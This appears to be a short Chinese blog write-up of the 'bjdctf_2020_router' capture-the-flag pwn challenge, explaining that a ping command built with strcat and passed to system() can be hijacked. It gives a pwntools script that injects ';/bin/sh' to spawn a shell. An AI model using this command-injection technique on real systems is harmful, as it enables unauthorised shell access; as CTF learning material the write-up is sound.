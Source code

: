 ```yaml
---
title: 'bjdctf_2020_router'
date: 2024-01-02 13:00:00 +0800
categories: [pwntools,rce]
tags: [ctf,pwn]
---
```

![image-20240102134312184](../assets/img/old_imgs/image-20240102134312184.png)

- `pwntools`使用
- `linux`系统下命令执行

1. 关键点在`case1`的这个`system`函数执行上,`dest`中是`ping`命令
2. 我们在`system`执行函数时,加上`;`那么前后两个命令都会执行
3. 所以我们拼接`strcat`中加上`;/bin/sh`就可以得到`shell`

```python
from pwn import *
io = process('./bjdctf_2020_router')
io.sendlineafter(b'Please input u choose:',b'1')
io.sendline(';/bin/sh')
io.interactive()
```

~~实话说有点水~~
